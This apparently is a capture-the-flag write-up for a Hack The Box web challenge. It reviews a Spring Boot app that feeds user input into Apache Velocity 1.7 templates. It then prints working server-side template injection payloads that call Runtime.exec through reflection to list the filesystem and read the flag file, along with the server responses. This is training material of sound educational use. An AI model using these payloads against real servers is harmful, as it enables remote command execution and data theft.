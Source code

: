 ```yaml
---
title: Labyrinth Linguist - Hack The Box
date: 2024-12-29
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Labyrinth Linguist

## Challenge Description

You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant
exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is
used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze.
It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned
against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with
the mutant and claim your last chance to make it out alive.

## Challenge Overview

This challenge presents a web application that simulates a translator for converting text into a fictional language
called **Voxalith**. Users can input text into a field, submit it, and view the translated output displayed on the page.

The application uses **Spring Boot** and **Apache Velocity** for templating, which is vulnerable to **Server-Side
Template Injection (SSTI)**. The objective is to exploit this vulnerability to execute arbitrary commands and retrieve
the flag.

![Labyrinth Linguist - Overview](/ctf/hack-the-box/challenges/web/labyrinth-linguist/overview.png)

## Code Review

### Technology Stack

- **Framework**: Spring Boot
- **Templating Engine**: Apache Velocity
- **Dependencies**:
  ```xml
  <dependency>
      <groupId>org.apache.velocity</groupId>
      <artifactId>velocity</artifactId>
      <version>1.7</version>
  </dependency>
  ```

The application leverages Apache Velocity for dynamic template rendering. The outdated version (1.7) is vulnerable to
SSTI, as identified in [CVE-2020-13936](https://www.mend.io/vulnerability-database/CVE-2020-13936).

### Main.java

The `Main.java` file contains the core logic, including the `/` endpoint that handles text input for translation.

#### Relevant Code Snippet:

```java
@RequestMapping("/")
@ResponseBody
String index(@RequestParam(required = false, name = "text") String textString) {
    if (textString == null) {
        textString = "Example text";
    }

    String template = "";

    try {
        template = readFileToString("/app/src/main/resources/templates/index.html", textString);
    } catch (IOException e) {
        e.printStackTrace();
    }

    RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
    StringReader reader = new StringReader(template);

    org.apache.velocity.Template t = new org.apache.velocity.Template();
    t.setRuntimeServices(runtimeServices);
    try {
        t.setData(runtimeServices.parse(reader, "home"));
        t.initDocument();
        VelocityContext context = new VelocityContext();
        context.put("name", "World");

        StringWriter writer = new StringWriter();
        t.merge(context, writer);
        template = writer.toString();
    } catch (ParseException e) {
        e.printStackTrace();
    }

    return template;
}
```

#### Key Observations:

1. **Template Injection Point**:
    - The `textString` parameter is directly passed into the Velocity template engine without sanitization, making it
      vulnerable to SSTI.

2. **Dynamic Rendering**:
    - The `VelocityContext` dynamically renders templates, providing an entry point for executing malicious payloads.

## Exploitation: Server-Side Template Injection (SSTI)

### Vulnerability

Apache Velocity 1.7 is vulnerable to SSTI, allowing attackers to execute arbitrary Java code by injecting malicious
payloads into templates. The `textString` parameter serves as the injection point in this challenge.

### Proof of Concept (PoC)

#### Objective

Verify if the application processes injected Velocity expressions.

#### Payload:

```java
#set($x='<h1>Server-Side Template Injection</h1>') $x
```

#### Methodology:

1. Submit the payload through the input field or intercept the request using **Burp Suite**.
2. Observe the processed response. The presence of the `<h1>` tag in the output confirms SSTI vulnerability.

### Retrieving the Flag

#### Exploit Strategy

To retrieve the flag, we can inject a payload that executes arbitrary system commands. The following payload executes
the `ls /` command to list directory contents:

```java
#set($x='')##
#set($str=$x.class.forName("java.lang.String"))##
#set($chr=$x.class.forName("java.lang.Character"))##
#set($ex=$x.class.forName("java.lang.Runtime").getRuntime().exec('ls /'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

#### Result:

The output reveals the directory structure, including the flag file:

```
<h2 class="fire">0
app
bin
boot
dev
entrypoint.sh
etc
flagc4daff00be.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</h2>
```

#### Reading the Flag

Using the following payload, we can read the content of `flagc4daff00be.txt`:

```java
#set($x='')##
#set($str=$x.class.forName("java.lang.String"))##
#set($chr=$x.class.forName("java.lang.Character"))##
#set($ex=$x.class.forName("java.lang.Runtime").getRuntime().exec('cat /flagc4daff00be.txt'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```

#### Result:

The server returns the flag in the response:

```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We successfully exploited the SSTI vulnerability in Apache Velocity to retrieve the flag! 🎉

<ChallengeCard
    challengeType="web"
    challengeName="Labyrinth Linguist"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/649"
/>

## References

## References

- [Apache Velocity SSTI - CVE-2020-13936](https://www.mend.io/vulnerability-database/CVE-2020-13936)
- [PortSwigger - SSTI Explained](https://portswigger.net/web-security/server-side-template-injection)
- [HackTricks - SSTI Exploitation](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
- [Gosecure - Template Injection Workshop](https://gosecure.github.io/template-injection-workshop/#6)
- [Antgarsil - Velocity](https://antgarsil.github.io/posts/velocity/)